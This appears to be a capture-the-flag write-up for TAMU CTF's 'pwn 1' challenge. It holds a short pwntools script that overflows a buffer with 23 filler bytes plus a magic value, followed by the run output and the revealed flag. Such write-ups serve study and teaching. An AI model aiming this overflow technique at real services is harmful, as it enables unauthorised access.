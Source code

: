 # **pwn 1**

#### tag : pwnable

-----------------------------------------------

#### Description

>nc pwn.ctf.tamu.edu 4321

-----------------------------------------------

#### Solution

~~~

from pwn import *

#context.log_level = 'debug'
r = remote('pwn.ctf.tamu.edu',4321)

payload = ''
payload += 'a' * 23
payload += '\x11\xba\x07\xf0'

r.sendline(payload)
print r.recvuntil('}')

~~~

~~~

$ python pwn1.py

[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/epist/.pwntools-cache/update to 'never'.
[*] A newer version of pwntools is available on pypi (3.11.0 --> 3.12.0).
    Update with: $ pip install -U pwntools
[+] Opening connection to pwn.ctf.tamu.edu on port 4321: Done
This is a super secret program
Noone is allowed through except for those who know the secret!
What is my secret?
How did you figure out my secret?!
gigem{H0W_H4RD_1S_TH4T?}
[*] Closed connection to pwn.ctf.tamu.edu port 4321

~~~


**gigem{H0W_H4RD_1S_TH4T?}**
